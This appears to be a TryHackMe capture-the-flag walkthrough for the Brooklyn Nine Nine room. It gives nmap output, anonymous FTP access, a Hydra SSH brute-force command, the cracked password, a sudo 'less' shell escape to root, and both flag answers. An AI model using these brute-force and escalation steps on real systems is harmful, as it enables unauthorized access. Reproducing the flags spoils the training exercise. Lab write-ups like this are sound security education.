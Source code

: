 # Brooklyn-Nine CTF [TryHackMe-Walkthrough](https://tryhackme.com/r/room/brooklynninenine)
#

## Task 1. Deploy and get hacking.

### 1. User flag
```
ee11cbb19052e40b07aac0ca060c23ee
```
### 2. Root flag
```
63a9f0ea7bb98050796b649e85481845
```

# 1. Let start Scanning the IP with Nmap.
```
death@esther:~/Lab/Brooklyn-Nine-Nine$ nmap 10.10.112.152 -sV -sC -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-26 16:45 IST
Nmap scan report for 10.10.112.152
Host is up (0.20s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.120.99
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.31 seconds
```
## Here, We can see that there are 3 open ports:
### 1. FTP on port 21.
### 2. SSH on port 22.
### 3. HTTP on port 80.

# 2. We Get something Intreasting here "FTP".
### Let try to login with default Credentials ```anonymous```:```anonymous```
![Screenshot from 2024-07-26 17-09-53](https://github.com/user-attachments/assets/987901ef-e57f-4eca-aa0f-a033a5f505f2)

### login successfully.

![Screenshot from 2024-07-26 17-23-55](https://github.com/user-attachments/assets/2157b64d-a0c8-4f3c-a9c4-c8d1d03f71f3)

### here we got a txt file. I just downloaded to my system using get command
## Here is the txt file,
![Screenshot from 2024-07-26 17-14-40](https://github.com/user-attachments/assets/94a7a2b9-4d44-4417-9ebe-5efcda90ffc0)

### We got 2 username: Amy, Jake , holt and ```Jake``` is our username for ssh as we read note we understand that jake ssh password is weak.
# 3. Let Brute-force SSH using Hydra.
```
hydra -l jake -P /home/death/wordlists/rockyou.txt 10.10.112.152 ssh -t 50
```

![Screenshot from 2024-07-26 17-28-57](https://github.com/user-attachments/assets/84d20c5b-0cfa-450d-a0d3-73cc5d77c362)

### login: ```jake```   password: ```987654321```
## Logged In as Jake successfully.
### I didn't find anything good in jake directory.
![Screenshot from 2024-07-26 17-33-30](https://github.com/user-attachments/assets/7fe2359b-1090-4afb-99e8-e72ce5c8a6c3)

## Let check for /home,
![Screenshot from 2024-07-26 17-35-01](https://github.com/user-attachments/assets/352aee94-8ae1-424b-af60-e6522a9d08db)

### Here are 3 user, Let check hold directory.

![Screenshot from 2024-07-26 17-35-40](https://github.com/user-attachments/assets/a2482abb-5dcc-45f7-b988-cbcf1c951bbc)

## Here is the User-Flag.txt
```
ee11cbb19052e40b07aac0ca060c23ee
```
# 4. Let escalate our privileges
## Let's see if we can run any commands of root.
```
sudo -l
```
![Screenshot from 2024-07-26 17-38-49](https://github.com/user-attachments/assets/5b1e2262-b361-4360-8198-b070fbc67fb1)

## Ok we can run less command as root,Let visit gtfobin
### search for less.
![Screenshot from 2024-07-26 17-41-55](https://github.com/user-attachments/assets/6acaf07a-a153-47b0-b964-c43ab13726a1)

### Here is for sudo:
![Screenshot from 2024-07-26 17-42-51](https://github.com/user-attachments/assets/e8fcbf20-d206-42b6-9e49-6c4ac7b77d35)

```
sudo less /etc/profile
!/bin/sh
```
## Let Run in terminal
![Screenshot from 2024-07-26 17-45-17](https://github.com/user-attachments/assets/ecb057f8-16b9-4381-8648-fa88ffc973b3)

## Press Enter on keyboard
![Screenshot from 2024-07-26 17-46-11](https://github.com/user-attachments/assets/c12d0bc6-3f5a-4b36-ae4b-1d33f93fd8c9)

## We got root
### Let find root flag at /root
![Screenshot from 2024-07-26 17-46-45](https://github.com/user-attachments/assets/50ed14b8-5273-4378-8ebe-944f526db71e)


```
63a9f0ea7bb98050796b649e85481845
```

# Thank you 😸
